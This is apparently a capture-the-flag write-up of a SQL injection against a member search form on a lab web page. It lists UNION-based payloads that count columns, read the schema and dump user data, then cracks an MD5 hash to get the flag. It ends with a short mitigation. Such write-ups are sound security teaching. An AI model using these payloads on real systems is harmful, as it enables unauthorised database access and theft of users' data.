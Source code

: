 # SQL INJECTION MEMBERS

## The flag

```
THE FLAG IS : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## How to find it ?

On the page http://10.12.1.121/index.php?page=member

The search member form may reach an SQL request that looks like this :
SELECT last_name, first_name FROM Users WHERE Id=

- To get the request columns number
1 OR 1=1 UNION SELECT NULL--
-> error
1 OR 1=1 UNION SELECT NULL, NULL--
-> good so 2 columns

- To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
-> user_id, first_name, last_name, town, country, planet, Commentaire, countersign

- To see all user's data
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
-> user_id = 5
-> FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
-> FortyTwo
lower('FortyTwo')
-> fortytwo
sh256('fortytwo')
-> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## How to use it ?

Dumb and get all database infos


## How to avoid it ?

Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.